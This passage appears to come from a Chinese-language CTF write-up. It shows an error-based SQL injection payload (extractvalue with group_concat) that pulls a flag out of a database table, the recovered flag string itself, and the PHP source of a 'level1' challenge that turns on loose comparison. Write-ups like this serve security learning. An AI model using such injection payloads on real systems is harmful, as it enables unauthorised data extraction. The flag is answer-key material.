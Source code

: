 ```php
tt=1'and extractvalue(1,concat(1,(select mid(group_concat(data),17,21) from flag_here))) %23
```

![image-20220126142504668](../CTF-images/image-20220126142504668.png)

得到了flag：NICO{eRr0r_inJect10n_1s_in7er35tin9!}

## level ?

level1：

```php
<?php
//here is level1
    error_reporting(0);
    include "str.php";
    if (isset($_GET['txw4ever'])){
        if (substr_count($_GET['txw4ever'],'1')>0){
            die("level 1 failed ...");
        }
        if ($_GET['txw4ever'] == 1){
            echo "next: ".$level2;
        }
    }
    else{
        show_source(__FILE__);
    }
```
